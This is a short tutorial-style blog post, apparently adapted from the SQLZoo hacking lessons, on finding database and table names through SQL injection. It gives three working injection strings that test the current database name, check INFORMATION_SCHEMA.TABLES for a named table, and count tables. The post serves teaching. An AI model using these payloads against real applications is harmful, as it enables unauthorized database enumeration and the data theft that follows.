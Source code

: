 ```yaml
---
layout: post
title: "Find Table Names using SQL Injection"
description: ""
date: 2016-06-17
tags: []
comments: true
share: true
---
```


In the previous examples we cheated a little. You knew that the table
containing user names and passwords was called users and you knew that it had
two columns, name and password. In some cases you do not know the name of the
table or the column names, but you can use the same techniques to find these
out.

  

You need to find out the name of the database that you are using. The function
DATABASE() will give you that value (but you have to guess at it as before).
When you know the name of the database being used you can take guesses at the
names of the tables.

  

  

**Does the current database contain the letter j?**

' OR EXISTS(SELECT 1 FROM dual WHERE database() LIKE '%j%') AND ''='

**Is there a table called one in database test?**

' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test'
AND TABLE_NAME='one') AND ''='

**Is there more than one table in the database(s) containing a j?**

' OR (SELECT COUNT(*) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE
'%j%')>1 AND ''='

  

참고 : http://sqlzoo.net/hack/24table.htm

